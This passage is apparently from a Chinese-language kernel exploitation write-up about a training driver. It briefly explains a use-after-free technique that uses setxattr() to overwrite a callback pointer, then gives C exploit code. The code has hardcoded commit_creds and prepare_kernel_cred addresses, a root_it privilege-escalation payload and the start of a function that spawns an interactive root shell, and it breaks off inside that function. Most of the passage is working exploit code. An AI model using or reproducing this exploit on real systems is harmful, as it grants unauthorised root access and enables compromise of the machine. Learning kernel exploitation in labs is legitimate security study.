 通过setxattr()函数（申请一个和驱动大小一致的chunk），然后往callback的位置写入一个 引用了commit_creds(prepare_kernel_cred(NULL))的函数地址，然后调用callback从而提权。


#### exp

    #define _GNU_SOURCE

    #include <stdio.h>
    #include <sys/types.h>
    #include <sys/stat.h>
    #include <fcntl.h>
    #include <stdlib.h>
    #include <unistd.h>
    #include <string.h>
    #include <sys/syscall.h>
    #include <stdbool.h>
    #include <sys/wait.h>
    #include <sys/mman.h>
    #include <stdint.h>
    #include <sys/xattr.h>

    #define MMAP_SZ			0x2000
    #define PAYLOAD_SZ		3300	// MDL: copy DRILL_ITEM_SIZE from kernel module

    /* ============================== Kernel stuff ============================== */

    /* Addresses from System.map (no KASLR) */
    #define COMMIT_CREDS_PTR	0xffffffff81084370lu	// MDL: fix this symbol
    #define PREPARE_KERNEL_CRED_PTR	0xffffffff810845a0lu	// MDL: fix this symbol

    typedef int __attribute__((regparm(3))) (*_commit_creds)(unsigned long cred);
    typedef unsigned long __attribute__((regparm(3))) (*_prepare_kernel_cred)(unsigned long cred);

    _commit_creds commit_creds = (_commit_creds)COMMIT_CREDS_PTR;
    _prepare_kernel_cred prepare_kernel_cred = (_prepare_kernel_cred)PREPARE_KERNEL_CRED_PTR;

    void __attribute__((regparm(3))) root_it(unsigned long arg1, bool arg2)
    {
        commit_creds(prepare_kernel_cred(0));
    }

    // MDL: copy the definition of drill_item_t here
    struct drill_item_t {
        u32 foo;
        void (*callback)(void);
        char bar[1];
    };
    /* ========================================================================== */

    void run_sh(void)
    {
        pid_t pid = -1;
        char *args[] = {
            "/bin/sh",
            "-i",
            NULL
        };
        int status = 0;
